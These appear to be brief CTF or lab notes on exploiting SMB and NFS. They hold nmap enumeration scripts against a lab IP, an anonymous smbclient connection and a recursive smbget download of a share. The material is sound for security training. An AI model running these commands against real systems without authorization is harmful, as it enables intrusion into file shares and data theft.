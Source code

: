 
#### 1. Exploit SMB

Enumerate shares 


```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.98.194
```



Connection as anonymous

```
	smbclient //<ip>/anonymous
```


Download SMB share 


```
	smbget -R smb://<ip>/anonymous 
```



#### 2. Exploit NFS

Enumerates mount 

```
	nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```



